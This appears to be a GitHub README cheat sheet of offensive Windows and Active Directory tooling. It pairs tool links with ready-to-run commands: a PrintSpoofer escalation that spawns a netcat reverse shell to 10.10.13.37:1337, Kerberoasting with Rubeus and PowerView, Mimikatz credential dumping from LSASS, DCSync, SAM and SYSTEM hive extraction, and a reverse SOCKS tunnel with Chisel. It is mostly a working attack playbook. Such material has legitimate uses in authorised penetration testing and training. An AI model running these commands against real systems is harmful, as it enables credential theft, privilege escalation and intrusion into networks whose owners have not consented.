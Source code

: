 # tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1  
Similar to Responder, for powershell  
PS C:\> Import-Module .\Inveigh.ps1  
PS C:\> (Get-Command Invoke-Inveigh).Parameters  
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y  


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Replacements for various Windows net*
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\all_tickets.csv -NoTypeInformation  #export to csv


### nc.exe
https://github.com/int0x33/nc.exe/
netcat Win binary, for port listening and reverse shell 


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"


### Rubeus
https://github.com/GhostPack/Rubeus
Kerberoasting from windows machine
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
To gather AD data for Bloodhound


### Snaffler.exe
https://github.com/SnaffCon/Snaffler
Credential Enumeration
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data
  

### Chisel
https://github.com/jpillora/chisel
Pre-compiled Chisel for port-forwarding, both linux and windows
sudo ./chisel server --reverse -v -p 1234 --socks5
./chisel.exe client -v <YourIP>:1234 R:socks
  

### Lazagne
https://github.com/AlessandroZ/LaZagne
checks for passwords in common locations

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz
  
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

#use lsass.DMP and put results to lsass.txt
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # log lsass.txt
mimikatz # sekurlsa::logonPasswords

#for dcsync abuse
mimikatz # lsadump::dcsync
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only 


reg save HKLM\SAM sam.h  #to Dump SAM
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM
reg save HKLM\SECURITY sec.h  #to Dump SECURITY
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz

  
  
  
  
  
  
  
  
  










